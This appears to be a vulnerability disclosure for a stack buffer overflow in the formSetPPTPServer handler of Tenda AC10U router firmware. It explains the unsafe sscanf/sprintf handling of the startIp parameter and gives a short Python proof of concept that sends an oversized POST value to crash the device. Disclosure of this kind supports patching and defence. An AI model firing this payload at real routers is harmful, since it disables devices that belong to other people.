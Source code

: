## Overview

- Firmware download website: https://www.tendacn.com/download/detail-3170.html

## Affected version

AC10U v1.0 Firmware V15.03.06.48

## Vulnerability details

The Tenda AC10U v1.0 Firmware V15.03.06.48 firmware has a stack overflow vulnerability in the `formSetPPTPServer` function. The `pptp_server_start_ip` variable receives the `startIP` parameter  and the `pptp_server_end_ip` variable receives the `endIP` parameter from two POST requests. the value of `startIp` is formatted using the `sscanf` function with the format `%[^.].%[^.].%[^.].%s`. Then variable `pptp_server_start_ip` and `pptp_server_end_each_ip[3]` is directly used in a `sprintf` function and passes to a local variable on the stack, which can override the return address of the function. The user-provided `startIP` and `endIP` can trigger this security vulnerability.

![image-20240313234025695](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313234025695.png)

![image-20240313234042401](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313234042401.png)

![image-20240313234218534](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313234218534.png)

## POC

```python
import requests
from pwn import*

ip = "192.168.84.101"
url = "http://" + ip + "/goform/SetPptpServerCfg"
payload = 'a'*1000

data = {"startIp": payload,"endIp": 1}
response = requests.post(url, data=data)
print(response.text)
```

![image-20240313234334731](https://raw.githubusercontent.com/abcdefg-png/images/main/image-20240313234334731.png)